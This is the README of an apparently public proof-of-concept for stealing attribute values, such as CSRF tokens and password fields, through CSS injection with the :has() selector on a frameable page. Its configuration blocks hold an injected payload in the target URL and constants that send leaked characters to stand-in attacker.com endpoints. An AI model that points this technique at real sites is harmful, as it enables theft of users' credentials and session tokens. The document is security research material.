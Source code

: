 # PoC - CSS Injection : Use of the pseudo-class has()

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using the pseudo-class has() to retrieve the value of an attribute of an HTML element.

## Prerequisites

- The vulnerable site must be able to be iframed, see `X-Frame-Options` and `frame-ancestors` HTTP headers.
- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.
- Does not work on Firefox (nor on IE)

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "csrf-token";

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/has-attribute-selectors-iframe/demo/has-attribute-selectors-iframe-password.gif)

### Retrieving a value from a hidden field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/has-attribute-selectors-iframe/demo/has-attribute-selectors-iframe-hidden.gif)